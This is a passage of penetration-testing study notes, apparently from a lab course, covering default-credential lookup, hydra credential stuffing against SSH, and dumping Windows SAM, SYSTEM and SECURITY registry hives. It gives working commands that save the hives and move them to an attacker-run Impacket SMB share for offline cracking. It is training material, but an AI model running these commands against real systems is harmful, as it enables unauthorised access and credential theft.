     * we can use resources such as [default creds cheatsheet](https://github.com/ihebski/DefaultCreds-cheat-sheet), [default router creds](https://www.softwaretestinghelp.com/default-router-username-and-password-list/), or the product documentation itself for default creds
    * credential stuffing is attacking services using default or obtained creds:

      ```sh
      # credentials separated with colon
      hydra -C user_pass.list ssh://10.129.42.197

      # OSINT used to search for default creds
      ```

## Windows Local Password Attacks

* Attacking SAM:

  * if we have access to a non-domain joined Windows system, we can dump the files associated with SAM database, transfer to our machine and crack hashes offline

  * there are 3 SAM registry hives that can be checked if we have local admin access:

    * ```hklm\sam``` - contains hashes for local account passwords
    * ```hklm\system``` - contains system bootkey (used to encrypt SAM database)
    * ```hklm\security``` - contains cached creds for domain accounts
  
  * copy registry hives using ```reg.exe``` (needs admin priv):

    ```cmd
    reg.exe save hklm\sam C:\sam.save

    reg.exe save hklm\system C:\system.save

    reg.exe save hklm\security C:\security.save
    ```
  
  * then, we can create a share with Impacket's ```smbserver.py``` and move the hive copies:

    ```sh
    # in attacker machine
    sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData ~

    # in target machine
    move sam.save \\10.10.15.16\CompData

    move system.save \\10.10.15.16\CompData

    move security.save \\10.10.15.16\CompData

    # check on attacker machine if hive copies have been moved
    ```
  